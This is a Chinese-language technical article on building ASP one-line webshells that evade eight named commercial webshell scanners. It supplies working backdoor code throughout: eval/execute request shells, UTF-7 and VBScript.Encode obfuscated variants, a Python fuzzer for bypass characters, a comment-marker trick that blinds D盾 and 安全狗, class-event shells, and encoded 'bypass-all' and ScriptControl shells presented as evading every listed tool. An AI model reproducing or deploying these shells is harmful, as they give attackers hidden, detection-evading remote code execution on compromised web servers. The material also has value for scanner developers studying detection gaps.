### 0x00：前言

随着时间的推移和其它新型动态网页技术的兴起，使用ASP(Active Server Page)技术构建的Web应用越来越少。ASP的衰落、旧资料和链接的失效、前辈们早期对ASP较多的研究，都导致了新型ASP网站后门和技术研究的减少。

本篇文章主要梳理ASP一句话Webshell的构建和规避检测软件达到源文件免杀的思路。最终构建能够同时绕过以下表格中8个专业木马查杀工具和平台检测的Webshell，构造出零提示、无警告、无法被检测到的ASP一句话木马后门。

| 编号   | 名称                              | 参考链接                                     |
| ---- | ------------------------------- | ---------------------------------------- |
| 1    | 网站**安全狗**(IIS 4.0)              | http://download.safedog.cn/download/software/safedogIISV4.0.exe |
| 2    | **D盾Web查杀** V2.0.9              | http://www.d99net.net/down/WebShellKill_V2.0.9.zip |
| 3    | **D盾防火墙** v2.0.6.92             | http://www.d99net.net/down/d_safe_2.0.6.92.zip |
| 4    | **深信服**WebShellKillerTool(2017) | http://edr.sangfor.com.cn/tool/WebShellKillerTool.zip |
| 5    | **360主机卫士**v2.0.5.9             | http://down-www.newasp.net/pcdown/soft/dys/360WebSafe_Setup.rar |
| 6    | **护卫神**云查杀系统(V4.5)              | http://down.huweishen.com/free/HwsKill.zip |
| 7    | **OpenRASP** WEBDIR+ Webshell检测 | https://scanner.baidu.com                |
| 8    | **河马专业版**查杀Webshell             | http://n.shellpub.com/                   |

### 0x01：ASP执行流程和原理

ASP脚本原生支持通过**VBScript**和**JScript**两种脚本语言来建立动态页面，本质上是将PC端的脚本执行能力迁移到了服务器。使用ASP技术构建的网站，通常都是部署在IIS或PWS服务器上。

借用一个简图表示浏览器请求一个ASP脚本的流程：


> 当Web应用服务器(IIS)判断出请求是访问ASP脚本后，自动通过**Isapi**模块调用ASP脚本的解释运行引擎**asp.dll**。asp.dll从文件系统或内部缓冲区中获取ASP脚本的文本内容，然后进行语法分析并解释执行。
>

如下图所示，在IIS服务器的"处理程序映射"配置中，可以设置特定路径文件的解析引擎。




ASP脚本中的代码块一般被包裹在`<% %>`标签中，默认以VBscript语言进行解释。除此之外，还可以使用 `<%@ language="VBscript" %>`或者

```vbscript
<script language="VBScript" runat="server"> some-vbscript-code </script>
```

标签，显性的告诉服务器脚本使用VBscript语言进行解释。同理可将language指定为`JScript`，则表示用微软实现的JavaScript语言解释服务器上的ASP脚本中的代码。ASP脚本中的基本语法可参考ASP、VbScript和JScript各自的参考手册，本文不再赘述。

### 0x02：ASP支持的注释方式

ASP脚本中支持**五种注释方式**

```
'			单引号		（单行注释）
REM 		rem+空格	 （单行注释）
//			双斜线      (单行注释，VBscript，JScript可用，仅支持IIS)
<!-- -->	HTML注释符  (单行注释，VBscript可用，仅支持IIS)
/* */		多行注释符 （多行注释，JScript可用）
```

### 0x03：ASP一句话后门现状

ASP脚本中，主要用以下三个VBscript函数执行代码，也是我们构造ASP一句话木马的**入口**。下面是用三个函数分别构建对应长度最短的密码为`0`的ASP一句话后门示例：

- Eval

  `<%eVAl reQuEst(0)%>`

- Execute

  `<%exECuTe ReqUEst(0)%>`

- ExecuteGlobal

  `<%eXECutegLobaL rEquEst(0)%>`

遗憾的是VBscript语言和其它高级语言相比，语法结构偏向简单。代码层面上很难隐藏上面三个函数的敏感词`Eval`、`Execute`和`ExecuteGlobal` 。

目前用的较多的隐藏以上三个敏感词的两种方式如下：

- **使用UTF-7编码脚本**

  一个密码为"LandGrey"的原始ASP一句话脚本代码如下：

  ```asp
  <%@codepage=65000%>
  <%response.codepage=65001:eval(request("LandGrey"))%>
  ```

  UTF-7编码后[utf7-bypass.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/utf7-bypass.asp)脚本内容如下：

  ```asp
  <%@codepage=65000%>
  <%
  +AHIAZQBzAHAAbwBuAHMAZQAuAGMAbwBkAGUAcABhAGcAZQA9ADYANQAwADAAMQA6AGUAdgBhAGwAKAByAGUAcQB1AGUAcwB0ACgAIgBMAGEAbgBkAEcAcgBlAHkAIgApACk-
  %>
  ```

  这种方式可以**躲过较多webshell检测软件查杀**，但是D盾Webshell查杀工具，提示脚本使用了UTF-7编码，并不能做到完全不被察觉。

  

- **使用VBScript.Encode功能编码脚本**

  ASP脚本默认可以使用内置的Encoder工具，对代码进行混淆，以保护源码的安全性。写一个vbs脚本，内容如下：

  ```vb
  ExecuteGlobal request("LandGrey")
  ```

  使用微软的工具运行命令`screnc.exe script.vbs script.vbe`，得到结果

  ```vb
  #@~^IQAAAA==3X+^!YMVK4msPM+5E/OcrSl	[MM+Xrb+AsAAA==^#~@
  ```

  然后就可以构建一个密码为"LandGrey"的编码混淆后的一句话木马脚本。注意里面有不可打印字符，需要使用的话，请下载[vbencode-bypass.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/vbencode-bypass.asp)

  ```asp
  <%@ LANGUAGE = "VBScript.Encode"%>
  <%#@~^IQAAAA==3X+^!YMVK4msPM+5E/OcrSl	[MM+Xrb+AsAAA==^#~@%>
  ```

  这种方式也可以绕过较多的查杀工具，但D盾会解码混淆后的脚本，然后再判断是否是恶意脚本，构造出来的一句话脚本木马依然会被查杀。


接着就陷入了较长时间的进度停滞，堆积各种代码姿势和测试已经公开的一句话木马，均不能躲过"**D盾**"的毒手。

期间人工测试了大量代码，也试图通过fuzzing，来构造`eval{some-char}RequEst("LandGrey") `形式的代码，尝试找到可以连接在eval和request之间的特殊字符，让ASP引擎既能正常解析脚本，又能绕过软件检测，结果失败了。

### 0x04：研究思路梳理

从以上小节的相关介绍可以看出目前构造完全免杀的ASP一句话木马的主要困难点：

- ASP网页构建技术出现时间较早，相关技术较为成熟
- 难找到以往从没出现过的新型技术构建一句话木马
- 构建ASP网页相关的语法结构偏向简单
- ASP Webshell被限定在仅使用一个ASP脚本，构造一句话木马
- 各种成熟的Webshell查杀工具对以往各类一句话木马均有所防范

要成功构造出能同时绕过以上表格中8款Webshell检测工具和平台的ASP一句话木马，存在一定的困难，不梳理下构造思路，最终很可能会做无用功。

虽然如此，但是现在研究构造免杀的ASP一句话木马也存在一定的有利条件：

- ASP构建的Web应用的减少直接导致查杀软件对**ASP木马查杀的重视程度降低**
- 针对ASP木马的查杀技术还停留在**正则表达式特征匹配**方面
- 大多数Webshell检测工具的**ASP特征库版本很久没有更新**了

想要绕过检测，可以进行以下操作

1. 先收集以往的各种ASP一句话木马样本
2. 多使用几种最新版的本地查杀工具进行**断网检测**，交叉验证，比对查杀情况
3. 针对所有的ASP一句话木马样本使用的技术进行简单分类
4. 重点分析能侥幸绕过一两款工具的单个木马样本
5. 熟读语法手册和官方文档和原木马样本，不断增删代码，找到绕过检测的"命脉"
6. 结合木马所使用的技术方法进行Webshell语法特性方面的深入挖掘
7. 找到目前已知所有可以执行ASP代码或命令的函数或语法特性，进行相关拓展或替换
8. 针对单个查杀效果较好的本地工具，不断进行手工测试绕过，必要时辅助Fuzzing技术

### 0x05：绕过D盾检测

上面介绍了，既然D盾规则库比较全，那就先从突破**D盾Web查杀**工具开始。

#### 一. 填充垃圾数据插入特殊字符串绕过

经过0x03小节的分析和大量测试，我不仅怀疑现在是否还能找到仅通过单个脚本，就能构造出绕过D盾Webshell查杀的ASP一句话木马。直到我偶然发现下面代码中一个有趣的地方：



第二行代码用单引号注释掉了`%>`符号，按理来说，对脚本的执行并没有影响。但是发现如下图，ASP引擎忽略了单引号注释符，将脚本中第一个`%>`以后的字符全部截断，而且同时D盾也查不出来脚本有异常了。



ASP引擎和D盾的解析如此相似，内部实现可以看成进入`<%`符号时，就急于寻找`%>`符号闭合这段代码，而造成忽略单引号注释符和造成代码截断的情况。以此为突破口，人肉fuzzing，终于找到绕过D盾，但可以让ASP引擎解析的一段代码[glorysday.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/glorysday.asp)：



构造以上代码需要：

- 利用**注释符**
- 利用`'%>`和`'<%`分别闭合前后标签
- 填充大量垃圾`<%%>`标签，且最后文件体积大小要合适(测试发现文件大小约>0.97 MB)
- 必须要在**一定位置**插入至少一个`<??>`字符串

页面浏览该脚本页面，就会发现很多作为注释符，但没生效的单引号



使用Cknife可以正常连接该一句话



上面提到的的特殊位置插入`<??>`是绕过检测的必要手段，不能增减一个字符。具体原因可能和D盾软件内部实现的Bug有关，这里不深入追究，感兴趣的同学可以自己接着去研究。

脚本中作为注释符号的单引号，可以使用其它三种注释符替换，依然可以绕过。

#### 二.  使用`<!--"-->`百分百绕过D盾检测

靠着运气和玄学的成份，我们绕过了**D盾Web查杀**检测。既然注释符号和`<??>`符号对D盾来说会产生意想不到的Bug效果，那么猜想，可能会有其它更简单的方式，绕过D盾的检测。

首先选个一定会被杀掉的简单ASP一句话脚本：

```asp
<%
execute(request("LandGrey"))
%>
```

我们在脚本中的第一个`<%`符号标记后面，`execute`标记前面，插入不同字符，查看D盾的检测反应。用下面的Python脚本在两个标记中间插入ascii值为0-255的字符，批量生成测试脚本

```python
#!/usr/bin/env python
# coding:utf-8
import os


def generate(count):
    template = """
<%
{0}
execute(request("LandGrey"))
%>""".format(chr(count))
    with open(os.path.join(path, "fuzz_{}.asp".format(count)), 'w') as f:
        f.write(template)

path = r"/path/to/yours/"

for c in range(0, 256):
    generate(c)
```

然后用D盾检测，出现了较为意外的结果，发现256个文件中，只检测出来了122个Webshell。



选一个没有检测到的脚本fuzz_34.asp，发现只是增加了一个双引号`"`。当然，多个`"`双引号这个脚本也不能正常执行了。

然后就结合四种VBscript可用的注释符，尝试找到能让脚本能正常执行，又绕过工具检测的方法。结果发现使用`<!-- -->`注释符加双引号`"`的形式，构造出`<!--"-->`字符串，就可以利用D盾的软件缺陷，完全绕过D盾的ASP木马检测。让先前被杀的脚本，插上放飞的翅膀。

一个可以绕过D盾检测的简单脚本[use-html-annotator-bypass.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/use-html-annotator-bypass.asp)如下：

```asp
<%
<!--"-->
execute request("LandGrey")
%>
```

其它几乎所有的ASP木马脚本，只要在上面提到的正确位置插入了`<!--"-->`字符串，都可以绕过D盾的检测。

### 0x06: 绕过安全狗检测

在"**0x05:绕过D盾检测**"部分，我们找到了两种绕过方法。有趣的是，测试发现安全狗也部分存在`<!--"-->`绕过的Bug问题。

#### 一.使用`<!--"-->`符号绕过检测

如下图的两个脚本



用安全狗进行检测，只要插入了`<!--"-->`字符串，就可以绕过。



#### 二. 其它多种方式绕过

其它绕过安全狗检测的方式还是比较多的，前面的VBscript encode脚本[vbencode-bypass.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/vbencode-bypass.asp)就可以绕过。另外，再列出来两种利用语法特性绕过的示例程序：

##### 方法一：请求判断

```asp
<%if Request("LandGrey")<>"" then ExecuteGlobal request("LandGrey") end if %>
```

##### 方法二：request变量替换

```asp
<%if request("LandGrey")<>""then session("LandGrey")=request("LandGrey"):end if:if session("LandGrey")<>"" then execute session("LandGrey")%>
```

### 0x07: 绕过护卫神检测

生活为你推开大门，打开一扇窗的同时，不会再为你预留一个狗洞。上面讲的`<!--"-->`方法并不是无敌的存在，绕不过护卫神的检测。

所以继续重拾老本行，继续查看官方语法手册。护卫神有两种查杀模式，对于"**极限模式**"，用VBscript的两种类事件可以绕过检测

##### 一. 利用类初始化事件绕过

```vbscript
<%
Class LandGrey
  Private Sub Class_Initialize
    eval	(request("LandGrey"))
  End Sub
End Class

Set X = New LandGrey
%>
```

##### 二. 利用类卸载事件绕过

```vbscript
<%
Class LandGrey
  Private Sub class_terminate
    eval	(request("LandGrey"))
  End Sub
End Class

Set X = New LandGrey
Set X = Nothing
%>
```



##### 三. 花式语法绕过

然而选了"**通用模式**"后，上面两个一句话木马就都失效了。但还是有方法能同时绕过护卫神的两种模式，用下面的[bypass-all.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/bypass-all.asp)脚本(密码"LandGrey")即可

```asp
<%<!--"-->
eXecUTe(fun("%167%184%163%174%98%180%167%179%183%167%181%182%106%100%142%163%176%166%137%180%167%187%100%107"))

Function fun(Str):
	Str = Split(Str,"%")
	For x=1 To Ubound(Str)
		fun=fun&Chr(Str(x)-66)
	Next
End Function
%>
```

### 0x07: 总结

其余的工具和平台都大同小异，效果远不如D盾和护卫神，没必要单独针对绕过。上面的[bypass-all.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/bypass-all.asp)脚本就足够绕过上面的表格中所有的平台和工具了。

最后再给出一个可以绕过表格中所有工具和平台检测的一句话脚本[create-activex-object.asp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/asp/create-activex-object.asp)，密码"LandGrey"。其原理是利用ASP内置的CreateObject创建ScriptControl组件对象，然后执行VBscript代码。VBscript代码中接受来自请求的参数变量值，并当作VBscript代码执行。

```asp
<%@ language = VBscript %>
<%<!--%^_^%-->
SET LandGrey = server.CreateObject("mS"&chr(115)&"cR"&chr(105)&"pTCo"&Chr(110)&Chr(84)&"rOL.Sc"&chr(114)&"IpTCo"&Chr(110)&Chr(84)&"rOL.1") 
LandGrey.lANguaGE = cHr(86)&"BsC"&CHR(114)&chr(105)&"PT"
LandGrey.AddObject "REsponse", Response 
LandGrey.AddObject "r"&chr(101)&"quEst", requesT 
LandGrey.AddObject "s"&chr(101)&"ssIon", sessiOn 
LandGrey.AddObject "serv"&chr(101)&"r", serVer 
LandGrey.AddObject "apPlic"&CHR(97)&"tIon", application 
LandGrey.eXECuTeStAtEmENt("eV"&CHr(&0141)&"L"&Chr(40)&"rEqU"&cHr(101)&"St("&chr(34)&"LandGrey"&chr(34)&CHR(41)&")")
%>
```



### 参考链接：

https://github.com/search?utf8=%E2%9C%93&q=webshell&type=

http://www.cnblogs.com/LittleHann/p/5016999.html

http://www.365jz.com/handbook/asp/

